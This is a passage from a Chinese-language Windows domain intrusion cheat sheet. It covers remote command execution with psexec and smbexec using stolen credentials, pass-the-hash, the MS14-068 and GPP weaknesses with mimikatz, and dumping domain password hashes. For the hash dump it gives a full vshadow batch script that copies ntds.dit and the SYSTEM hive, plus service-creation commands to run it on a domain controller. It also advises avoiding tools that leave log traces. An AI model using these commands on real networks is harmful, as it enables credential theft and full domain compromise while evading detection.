 ```

PStools 远程执行命令
```
psexec.exe \\ip –accepteula -u username -p password program.exe

```
PTH+compmgmt.msc
![](http://ogmho3r7t.bkt.clouddn.com/2017-03-20-14816949000256.png)

smb+MOF

smbexec远程执行命令
```
copy execserver.exe \\host\c$\windows\ 
test.exe ip user password command netshare

```
不推荐使用pstools，因为会留下很多痕迹，日志要记录，并且如果禁用NTLM那么psexec无法利用获得的ntlm hash进行远程连接

6.ms14068 && GPP
ms14068 可以通过先执行klist purge 然后在用mimikatz注入证书 这样域用户也可以直接使用这个漏洞。
GPP漏洞介绍 [http://www.91ri.org/14909.html](http://www.91ri.org/14909.html)

#### 0x03 dump域内hash
1.非交互式
QuarkPwDump离线分析
需要文件：ntds.dit system.hiv
导出 system.hiv

```
reg save hklm\system system.hiv
```
QuarksPwDump.exe -k  可以获取key

导出ntds.dit

连接到域控之后，上传bat 利用vshadow备份ntds.dit

```
setlocal
if NOT "%CALLBACK_SCRIPT%"=="" goto :IS_CALLBACK
set SOURCE_DRIVE_LETTER=%SystemDrive%
set SOURCE_RELATIVE_PATH=\windows\ntds\ntds.dit
set DESTINATION_PATH=%~dp0
@echo ...Determine the scripts to be executed/generated...
set CALLBACK_SCRIPT=%~dpnx0
set TEMP_GENERATED_SCRIPT=GeneratedVarsTempScript.cmd
@echo ...Creating the shadow copy...
"%~dp0vshadow-2008-x64.exe" -script=%TEMP_GENERATED_SCRIPT% -exec="%CALLBACK_SCRIPT%" %SOURCE_DRIVE_LETTER%
del /f %TEMP_GENERATED_SCRIPT%
@goto :EOF
:IS_CALLBACK
setlocal
@echo ...Obtaining the shadow copy device name...
call %TEMP_GENERATED_SCRIPT%
@echo ...Copying from the shadow copy to the destination path...
copy "%SHADOW_DEVICE_1%\%SOURCE_RELATIVE_PATH%" %DESTINATION_PATH%
```

新建服务执行

```
sc create backupntds binPath= "cmd /c start c:\windows\temp\ntds.bat"
sc start backupntds